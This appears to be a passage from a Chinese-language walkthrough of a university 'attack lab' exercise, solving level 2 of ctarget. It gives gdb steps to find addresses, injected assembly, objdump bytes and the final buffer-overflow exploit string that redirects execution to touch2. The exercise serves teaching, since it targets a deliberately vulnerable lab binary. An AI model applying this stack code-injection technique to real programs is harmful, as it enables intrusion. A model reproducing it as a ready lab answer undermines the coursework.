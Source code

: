 ```
void touch2(unsigned val){
    vlevel = 2; /* Part of validation protocol */
    if (val == cookie){
        printf("Touch2!: You called touch2(0x%.8x)\n", val);
        validate(2);
    }else{
        printf("Misfire: You called touch2(0x%.8x)\n", val);
        fail(2);
    }
    exit(0);
}
```

可以看出，touch2和touch1的区别是，touch2多了一个参数。这里，我们要得到touch2的函数地址(cookie值可以从上面的执行结果得到)。因为我们需要传递参数，并且栈上是可以执行代码的，所以我们可以利用40个字节，构造一段代码，然后返回的时候，返回到输入缓冲区的地方，也就是我们插入代码的地方。所以，我们要得到getbuf函数中buf的其实地址。执行以下操作。

```
gdb ./ctarget
disas touch2
   0x00000000004017ec <+0>:     sub    $0x8,%rsp //touch2地址
break getbuf
run -q
stepi //执行char buf[BUFFER_SZIE];
print /x $rsp 
	$1 = 0x5561dc78 //buf起始地址
```
我们还需要编写汇编代码c2.s。汇编代码如下：
```
mov  $0x59b997fa,%edi
pushq $0x4017ec
ret
```
这里之所以没有用jump，是因为实验手册上注明了主要不要用jump，。然后，行以下操作得到二进制码。
```
gcc -c c2.s
objdump -d c2.o > c2.d
cat c2.d
	0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
	5:   68 ec 17 40 00          pushq  $0x4017ec
	a:   c3                      retq   
```
所以，最后的答案为
```
bf fa 97 b9 59 68 ec 17
40 00 c3 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
78 dc 61 55 00 00 00 00
```
##Part I level 3

这一次，我们要调用的函数是touch3。
